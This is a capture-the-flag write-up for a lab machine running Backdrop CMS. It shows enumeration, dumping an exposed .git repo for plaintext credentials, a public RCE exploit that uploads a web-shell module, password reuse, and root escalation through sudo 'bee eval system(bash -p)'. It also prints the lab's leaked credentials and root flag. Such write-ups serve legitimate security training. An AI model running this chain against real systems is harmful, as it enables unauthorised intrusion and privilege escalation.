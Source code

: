 ## ENUM

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41
```

```
+ http://10.10.11.58/.git/HEAD (CODE:200|SIZE:23)       
==> DIRECTORY: http://10.10.11.58/core/                 
==> DIRECTORY: http://10.10.11.58/files/  
```

since the site was inaccessible at the time I attempted the enum, I decide to dig through the files, I find the mention of **Backdrop CMS** in [http://10.10.11.58/core/profiles/minimal/minimal.info](http://10.10.11.58/core/profiles/minimal/minimal.info):

```info
name = Minimal
description = Start with only a few modules enabled.
version = BACKDROP_VERSION
backdrop = 1.x
type = profile
hidden = TRUE

dependencies[] = node
dependencies[] = dblog
dependencies[] = layout

; Added by Backdrop CMS packaging script on 2024-03-07
project = backdrop
version = 1.27.1
timestamp = 1709862662
```

so I have this info:

Backdrop CMS : 1.27.1

I find a vuln that I could exploit once logged in:
`Backdrop CMS 1.27.1 - Authenticated Remote Command Execution (RCE)`

I keep that aside.

I also find: [http://10.10.11.58/.git/logs/HEAD](http://10.10.11.58/.git/logs/HEAD) (I could probably reconstruct the repo!)

`root <dog@dog.htb> 1738963331 +0000	commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases`

which could also indicate a lead.

I launch ffuf (machine bug was preventing dirb from giving results)

```
ffuf -u http://10.10.11.58/FUZZ -w /usr/share/dirb/wordlists/common.txt -timeout 5 -t 10 -o result.json -of json
```

| URL                      | Code | Duration | Size | Notes                                      |
| ------------------------ | ---- | -------- | ---- | ------------------------------------------ |
| `/`                      | 200  | 63 ms    | 0    | Empty or redirected home page              |
| `/.git/HEAD`             | 200  | 68 ms    | 23   | found earlier                              |
| `/index.php`             | 200  | 65 ms    | 0    | Existing PHP file but empty                |
| `/robots.txt`            | 200  | 65 ms    | 1198 | To read, might contain hidden paths        |
| `/core/` (via `/core`)   | 301  | 78 ms    | 309  | found earlier                              |
| `/files/` (via `/files`) | 301  | 70 ms    | 310  | same                                       |
| `/layouts/`              | 301  | 58 ms    | 312  | Existing directory, redirected             |
| `/modules/`              | 301  | 59 ms    | 312  | Potentially interesting                    |
| `/sites/`                | 301  | 67 ms    | 310  | same                                       |
| `/themes/`               | 301  | 64 ms    | 311  | same                                       |
| `/.hta`                  | 403  | 57 ms    | 276  | ⚠️ Access denied (sensitive file?)         |
| `/.htpasswd`             | 403  | 53 ms    | 276  | ⚠️ Classic restriction file, access denied |
| `/server-status`         | 403  | 60 ms    | 276  | Apache status denied, good service sign    |

here’s the content of robots.txt:

```
...
Disallow: /user/register
Disallow: /user/password
Disallow: /user/login
Disallow: /user/logout
...
```

I also find a key piece of info here:
[http://10.10.11.58/files/config\_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json](http://10.10.11.58/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json)

`"tiffany@dog.htb"` a possible username to test? but I’m missing the password, I might find it in some config files!

I’m going to download the .git and restore it:

```bash
wget --mirror -I .git http://10.10.11.58/.git/
sudo git restore .
```

and I find interesting files:

```
ls

LICENSE.txt  README.md  core  files  index.php  layouts  robots.txt  settings.php  sites  themes
```

I dig into settings.php and find several useful things:

```
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$settings['hash_salt'] = 'aWFvPQNGZSz1DQ701dD4lC5v1hQW34NefHvyZUzlThQ';
```

I can try the username `tiffany` and the password `BackDropJ2024DS2024`

and it works!

## INITIAL ACCESS

Now that I’m authenticated, time for the RCE vuln!

[https://www.exploit-db.com/exploits/52021](https://www.exploit-db.com/exploits/52021)

I enter the url:

```
python exploit.py http://10.10.11.58                                     
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58/modules/shell/shell.php
```

and I’ll upload the malicious module!

and I access it here: [http://10.10.11.58/modules/shell/shell.php](http://10.10.11.58/modules/shell/shell.php)

I can execute commands so I generate a revshell payload and gain acces to the machine.

### OWN USER

once on the machine I launch linpeas.sh:

I find 3 users:

```
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

after long analysis, I find nothing interesting so I try the password found earlier to log into the accounts

```
www-data@dog:/var/www/html/modules/shell$ su johncusack
su johncusack
Password: BackDropJ2024DS2024
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
ls
whoami
johncusack
```

and it works! I connect via ssh and relaunch linpeas.sh!

```
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

perfect! what does bee do?

```
/usr/local/bin/bee
🐝 Bee
Usage: bee [global-options] <command> [options] [arguments]
```

so we have the possibility to execute code as root!

if I look at the options that will be useful:

```
 --root
 Specify the root directory of the Backdrop installation to use. If not set, will try to find the Backdrop installation automatically based on the current directory.
```

so to specify the installation, here `/var/www/html`

```
eval
   ev, php-eval
   Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.
```

knowing that php can execute system commands, it’s perfect.

```
sudo /usr/local/bin/bee --root=/var/www/html eval "system('id');"
uid=0(root) gid=0(root) groups=0(root)
```

it’s indeed root, so now just switch to a shell:

```
johncusack@dog:/tmp$ sudo /usr/local/bin/bee --root=/var/www/html eval "system('bash -p');"
root@dog:/var/www/html# ls /root
root.txt
root@dog:/var/www/html# cat /root/root.txt
f0a050cdb9b12eda1af7bb06b2eae6c3
```
